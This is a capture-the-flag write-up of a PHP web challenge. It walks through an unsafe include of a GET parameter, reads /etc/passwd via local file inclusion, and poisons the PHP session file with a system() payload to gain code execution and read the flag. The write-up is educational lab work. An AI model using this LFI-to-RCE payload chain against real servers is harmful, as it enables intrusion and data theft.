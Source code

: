 # Web - ForbiddEn JutSu

## Challenge description:

![image](https://user-images.githubusercontent.com/70543460/209949450-0119cb60-c0d1-4016-8b2a-42d2b3709560.png)

## Quick Navigation:

- **[(1) Understanding the source code](https://github.com/Cyb3rDoctor/YogoshaChristmasChallenge2022/blob/main/ForbiddEnJutSu.md#1-understanding-the-source-code)**
- **[(2) LFI](https://github.com/Cyb3rDoctor/YogoshaChristmasChallenge2022/blob/main/ForbiddEnJutSu.md#2-lfi)**
- **[(3) LFI to RCE](https://github.com/Cyb3rDoctor/YogoshaChristmasChallenge2022/blob/main/ForbiddEnJutSu.md#3-lfi-to-rce)**

## Solution:

### (1) Understanding the source code:

When I open the web application I get the following source code:
![image](https://user-images.githubusercontent.com/70543460/209949580-592a3ee7-08b0-4e8e-9c4d-cc5b4d638ad4.png)

----------

```php
session_start();
```
This creates a new session or resumes the current one based on a session identifier passed via a GET or POST request, or passed via a cookie.

So, when the ```session_start()``` runs at the first time, PHP generates a unique session id and passes it to the web browser in the form of a cookie named **PHPSESSID**.

And if a session already exists, PHP checks the **PHPSESSID** cookie sent by the browser, the ```session_start()``` function will resume the existing session instead of creating a new one.

----------

```php
highlight_file(__FILE__);
```
This prints out or returns a syntax highlighted version of the code contained in the current file using the colors defined in the built-in syntax highlighter for PHP.

----------

```php
if(isset($_GET["karma"])){
    $_SESSION["boruto"]=$_GET["karma"];
    include($_GET["karma"]);
```
The if statement checks if the **karma** parameter has been provided in the GET request. If the **karma** parameter is present, the if block will be executed.

Inside the if block: The ```$_SESSION["boruto"]``` variable is set to the value of the **karma** parameter.

Noting that ```$_SESSION``` is an associative array containing session variables available to the current script. And when you store the data in a session using the ```$_SESSION``` super-global, it’s eventually stored in a corresponding session file on the server which was created when the session was started.

Finally, ```include($_GET["karma"]);``` causes the PHP interpreter to include and execute the file specified by the **karma** parameter.

----------

### (2) LFI:

After understanding the source code, I tried passing ``/etc/passwd`` to the **karma** parameter, and the content was printed out:

![image](https://user-images.githubusercontent.com/70543460/209953379-8fa8cb4f-854d-488d-bb8e-7c8c61daccbd.png)

And according to the comment in the source code which says:
```php
//Our secret is in the root directory; You can't reveal it without achieving RCE Jutsu ;)
```
I need to achieve RCE because I won't be able to know the name of the secret file which contains the flag which is located in the root ``/`` directory.

----------

### (3) LFI to RCE:

According to the following line of the source code:
```php
$_SESSION["boruto"]=$_GET["karma"];
```
The value of the **karma** parameter is stored in the session file on the server which was created when the session was started.

After searching a little bit, I found that ```/tmp/``` directory is one of the common locations to store session data files in the following format:
 ```/tmp/sess_[PHPSESSID]```

![image](https://user-images.githubusercontent.com/70543460/209961297-61a8d059-977c-4828-afb1-b77aa29e90cf.png)

So, my sessiod data file was: ```/tmp/sess_26ef471f0ed2b7e54244bd9b0e6e1641```
![image](https://user-images.githubusercontent.com/70543460/209962272-0ac2426b-060d-495e-a748-163bffb66182.png)

And to test the following line:
```php
$_SESSION["boruto"]=$_GET["karma"];
```
I passed **anything** as a value to the **karma** parameter:
```
http://44.200.237.73/?karma=anything
```
Then I opened my session data file:
```http://44.200.237.73/?karma=/tmp/sess_26ef471f0ed2b7e54244bd9b0e6e1641```

And found the data that I passed as a value to the **karma** parameter:
![image](https://user-images.githubusercontent.com/70543460/209962814-8d52e296-335b-4534-9a66-0d9534389f73.png)

Accordingly, I passed a php code that executes ```ls -a /``` as a value to the **karma** parameter:

```http://44.200.237.73/?karma=<?php system('ls -a /');?>```

Then I opened my session data file:

```http://44.200.237.73/?karma=/tmp/sess_26ef471f0ed2b7e54244bd9b0e6e1641```

Bingo! I was able to achieve RCE and I got the name of the secret file which is located in the root ```/``` directory:

![image](https://user-images.githubusercontent.com/70543460/209963269-11c5a430-b0a5-4c00-8742-2418debaaea2.png)

Finally, I got that flag:
```http://44.200.237.73/?karma=/seCretJutsuToKillBorUtoKun.txt```

![image](https://user-images.githubusercontent.com/70543460/209963922-1350f38a-ab69-458d-8f1d-8d52d4f933e7.png)

